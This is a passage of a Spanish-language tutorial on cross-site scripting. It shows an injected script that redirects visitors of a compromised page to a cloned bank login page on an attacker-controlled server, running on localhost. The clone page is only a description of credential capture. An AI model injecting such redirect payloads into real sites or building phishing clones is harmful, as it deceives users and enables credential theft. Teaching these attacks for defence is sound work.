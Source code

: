 





## Redirigir a otra web

Por último, veremos otro tipo de ataque **XSS**, el cual realiza una redirección a una web controlada por el atacante, pero que visualmente, esta representada igual que la real. Por ejemplo si creamos la siguiente página, llamada `hackeada-redirect.html`:

```php+HTML
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, reenvía al visitante a una página controlada por un hacker
<script>document.location = 'http://localhost:8080/clon-de-mi-banco.html'</script>
</body>  
```



Cuando el usuario acceda a ella, se le redirigirá a la página `clon-de-mi-banco.html`, controlada por el servidor web **evil**.

```php+HTML
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
<p>Esta página es un clon de la página de login de mi banco. Cuando el usuario realiza un login, los datos de conexíón son capturados por el atacante.</p>
<p>Otra posibilidad es que desde esta página se instale un malware en el ordenador</p>
<p>Las posibilidades son infinitas...</p>
</body>
</html>
```



Y si realizará el inicio de sesión, como si se tratará de la página real, estos datos se enviarán al atacante.